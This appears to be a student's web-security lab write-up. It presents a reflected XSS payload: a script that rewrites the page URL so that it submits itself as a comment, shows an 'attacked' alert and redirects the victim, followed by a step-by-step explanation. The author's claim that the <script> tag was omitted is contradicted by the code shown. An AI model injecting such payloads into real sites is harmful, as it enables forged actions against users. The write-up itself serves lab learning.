 # Lab 4, part 2: XSS

> English version



### XSS SCRIPT

```html
<script>
    let url = document.location.href;
    new_url = url.replace(/method=\w+/, 'method=1');
    new_url = new_url.replace(/user=\w+/, 'comment=' + encodeURIComponent(url));
    alert("Hahahhhhhh!!! YOU ARE ATTACKED!");
    document.location.href = new_url;
</script>
```

~:relaxed: Note: To prevent unnecessary web attacks, I did not include the <script> tag in my script.

------

### DESCRIBETION

In particular, my XSS script did the following:

1. Obtained the current URL of the page and saved it in a variable named `url`.
2. Used a regular expression to replace the `method` parameter in the URL with '1' and replace the `user` parameter with `comment=` followed by the encoded current URL, and saved the modified URL in a variable named `new_url`.
3. Displayed an alert box to inform the user that they have been attacked.
4. Used the`document.location.href` property to redirect the current page to the URL specified by `new_url`.

AND → This is a non-persistent attack.
